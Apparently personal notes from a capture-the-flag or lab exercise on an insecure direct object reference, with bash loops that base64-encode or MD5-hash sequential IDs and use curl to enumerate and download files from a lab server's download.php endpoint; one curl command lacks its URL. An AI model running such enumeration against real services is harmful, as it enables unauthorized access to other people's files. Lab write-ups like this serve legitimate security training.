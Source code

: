 instead of using numbers like 1, 2, 3 they might encode it or hash it? 

send the hashes to be recognised -> hashid? 

try to replication how the encoding is done on cyberchef first

can enumerate it also 

generate a list of hashes
```
for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done
```
send it through curl 
```
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" 
    done
done

```

downloading the files 
```
for i in {1..20}; do
  encoded=$(echo -n "$i" | base64 | tr -d '\n' | sed 's/=/%3D/g')
  echo $encoded
  curl "http://83.136.252.14:31083/download.php?contract=$encoded" --output file_$i
done
```